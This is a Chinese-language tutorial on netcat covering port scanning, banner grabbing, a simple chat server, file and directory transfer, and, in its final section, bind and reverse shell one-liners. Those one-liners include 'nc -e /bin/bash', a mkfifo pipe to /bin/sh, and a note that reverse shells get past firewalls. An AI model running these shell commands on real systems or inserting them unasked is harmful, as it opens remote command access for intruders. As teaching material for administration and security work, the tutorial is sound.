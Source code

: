 # netcat——网络工具中的瑞士军刀
网络工具中的瑞士军刀——netcat，它能通过TCP和UDP在网络中读写数据。

## 端口扫描
端口扫描经常被系统管理员和黑客用来发现在一些机器上开放端口，帮助他们识别系统中的漏洞。

``` sh
$nc -z -v -n 172.31.100.7 21-25
```
可以运行在TCP或者UDP模式，默认是TCP，-u参数调整为udp。

z：参数告诉netcat使用ZeroIO,指的是一旦连接关闭，不进行数据交换。

v：参数指使用冗余选项（详细输出）。

n：参数告诉netcat不要使用DNS反向查询IP地址的域名。

该命令会打印21到25所有开放的端口。

一旦你发现开放的端口，你可以很容易的使用netcat连接服务抓取他们的banner。

``` sh
$nc -v 172.31.100.7 21
```
netcat命令会连接开放端口21并且打印运行在这个端口上服务的banner信息。

## Chat Server
Server端

```sh
$nc -l 1567
```
netcat命令在1567端口启动了一个tcp服务器，所有的标准输出和输入会输出到该端口。输出和输入都在此shell中展示。


Client端

```sh
$nc 172.31.100.7 1567
```
不管你在机器B上键入什么都会出现在机器A上。

## 文件传输
Server端

```sh
$nc -l 1567 < file.txt
```

Client端

```sh
$nc -n 172.31.100.7 1567 > file.txt
```

这里创建了一个服务器在A上并且重定向netcat的输入为文件file.txt，那么当任何成功连接到该端口，netcat会发送file的文件内容。

在客户端我们重定向输出到file.txt，当B连接到A，A发送文件内容，B保存文件内容到file.txt.

没有必要创建文件源作为Server，我们也可以相反的方法使用。像下面的我们发送文件从B到A，但是服务器创建在A上，这次我们仅需要重定向netcat的输出并且重定向B的输入文件。

B作为Server

Server端

```sh
$nc -l 1567 > file.txt
```

Client端

```sh
$nc 172.31.100.23 1567 < file.txt
```

## 目录传输

发送一个文件很简单，但是如果我们想要发送多个文件，或者整个目录，一样很简单，只需要使用压缩工具tar，压缩后发送压缩包。

如果你想要通过网络传输一个目录从A到B。

Server

```sh
$tar -cvf – dir_name | nc -l 1567
```

Client

```sh
$nc -n 172.31.100.7 1567 | tar -xvf -
```

在A服务器创建一个tar归档包并且通过-在控制台重定向它，然后使用管道，重定向给netcat，netcat可以通过网络发送它。

在客户端我们下载该压缩包通过netcat管道然后打开文件。

如果想要节省带宽传输压缩包，我们可以使用bzip2或者其他工具压缩。

Server

```sh
$tar -cvf – dir_name| bzip2 -z | nc -l 1567
```
通过bzip2压缩

Client端口

```sh
$nc -n 172.31.100.7 1567 | bzip2 -d |tar -xvf -
```
使用bzip2解压

## 打开一个shell
### 假设netcat支持 -c -e 参数

Server端

```sh
$nc -l 1567 -e /bin/bash -i
```

Client端

```sh
$nc 172.31.100.7 1567
```

这里创建了一个netcat服务器并且表示当它连接成功时执行/bin/bash

### 假如netcat不支持-c或者-e参数（openbsd netcat）

Server端

```sh
$mkfifo /tmp/tmp_fifo
$cat /tmp/tmp_fifo | /bin/sh -i 2>&1 | nc -l 1567 > /tmp/tmp_fifo
```
创建了一个fifo文件，然后使用管道命令把这个fifo文件内容定向到shell 2>&1中，是用来重定向标准错误输出和标准输出，然后管道到netcat运行的端口1567上。至此，已经把netcat的输出重定向到fifo文件中。

说明：

从网络收到的输入写到fifo文件中

cat命令读取fifo文件并且其内容发送给sh命令

sh命令进程受到输入并把它写回到netcat。

netcat通过网络发送输出到client

至于为什么会成功是因为管道使命令平行执行，fifo文件用来替代正常文件，因为fifo使读取等待而如果是一个普通文件，cat命令会尽快结束并开始读取空文件。

在客户端仅仅简单连接到服务器

Client端

```sh
$nc -n 172.31.100.7 1567
```
你会得到一个shell提示符在客户端

### 反向shell

服务端

```sh
$nc -l 1567
```
在客户端，简单地告诉netcat在连接完成后，执行shell。

客户端

```sh
$nc 172.31.100.7 1567 -e /bin/bash
```

反向shell经常被用来绕过防火墙的限制，如阻止入站连接。例如，有一个专用IP地址为172.31.100.7，使用代理服务器连接到外部网络。如果想从网络外部访问 这台机器如1.2.3.4的shell，那么会用反向外壳用于这一目的。

